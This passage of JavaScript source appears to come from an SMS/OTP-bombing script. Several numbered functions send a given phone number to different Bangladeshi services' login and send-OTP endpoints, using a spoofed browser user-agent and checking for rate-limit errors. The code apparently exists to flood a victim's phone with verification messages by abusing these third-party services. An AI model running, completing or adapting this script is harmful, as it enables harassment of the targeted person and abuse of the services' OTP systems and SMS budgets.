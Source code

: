         const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 5 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 5 Error:', error);
        throw error;
    }
}

async function api_6(phone) {
    const url = "https://gw.jotno.net/auth/login/token";

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
            },
            body: JSON.stringify({ username: phone })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 6 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 6 Error:', error);
        throw error;
    }
}

async function api_7(phone) {
 const data = {
 mobile: '+88-' + phone,
 deviceToken: 'app',
 language: 'bn',
 os: 'android'
 };
    try {
        const response = await fetch('https://api.osudpotro.com/api/v1/users/send_otp', {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
            },
            body: JSON.stringify(data)
        });
